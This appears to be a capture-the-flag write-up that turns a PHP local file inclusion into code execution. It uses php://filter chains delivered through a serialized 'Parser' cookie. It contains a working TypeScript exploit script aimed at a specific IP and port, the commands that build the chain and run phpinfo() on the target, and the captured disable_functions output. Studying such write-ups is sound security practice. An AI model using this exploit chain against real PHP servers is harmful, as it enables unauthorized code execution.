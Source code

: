 ## setup `php://filter` lfi2rce

- https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-php-filters
- https://github.com/synacktiv/php_filter_chain_generator

```typescript
// ./exploit.ts
let output = "";
for await (const chunk of Bun.stdin.stream()) {
  output += Buffer.from(chunk).toString();
}

const [, filter] = output.split("\n");
const cookie = `O:6:"Parser":4:{s:4:"text";s:${filter.length}:${JSON.stringify(
  filter
)};s:5:"debug";b:1;s:7:"version";s:4:"v1.0";s:11:"betterprint";b:1;}`;

const response = await fetch(
  "http://57.128.112.118:11149/api/old/index-old-do-not-use-please.php",
  {
    headers: { cookie: `parser=${btoa(cookie)}` },
  }
);

const html = await response.text();
console.log(html);
```

```bash
wget https://raw.githubusercontent.com/synacktiv/php_filter_chain_generator/refs/heads/main/php_filter_chain_generator.py
```

## `phpinfo()`

```bash
python3 php_filter_chain_generator.py --chain '<?php phpinfo(); ?>' | bun run exploit.ts
```

with this we can read the output of `phpinfo()` and we can grab those two properties:

```html
disable_functions => apache_note, apache_setenv, chgrp, curl_multi_exec,
define_sys, define_syslog_variables, debugger_off, debugger_on, diskfreespace,
_getppid, escapeshellarg, escapeshellcmd, exec, getmyuid, ini_restore, leak,
listen, parse_ini_file, passthru, pcntl_alarm, pcntl_async_signals, pcntl_exec,
pcntl_fork, file_put_contents, pcntl_get_last_error, pcntl_getpriority,
pcntl_setpriority, pcntl_signal, pcntl_signal_dispatch,
pcntl_signal_get_handler, pcntl_sigprocmask, pcntl_sigtimedwait,
pcntl_sigwaitinfo, pcntl_strerror, pcntl_unshare, pcntl_wait, pcntl_waitpid,
pcntl_wexitstatus, pcntl_wifcontinued, pcntl_wifexited, pcntl_wifsignaled,
pcntl_wifstopped, pcntl_wstopsig, pcntl_wtermsig, posix, posix_ctermid,
posix_getcwd, posix_getegid, posix_geteuid, posix_getgid, posix_getgrgid,
posix_getgrnam, posix_getgroups, posix_getlogin, posix_getpgid, posix_getpgrp,
posix_getpid, posix_getpwnam, posix_getpwuid, posix_getrlimit, posix_getsid,
posix_isatty, posix_kill, posix_mkfifo, posix_setegid, posix_seteuid,
posix_setgid, posix_setpgid, posix_setsid, posix_setuid, posix_times,
posix_ttyname, posix_uname, popen, proc_close, proc_get_status, proc_nice,
proc_open, proc_terminate, shell_exec, show_source, system, url_exec,
preg_replace, opendir, readdir, scandir, print_r open_basedir => /var/www/html
=> /var/www/html
```
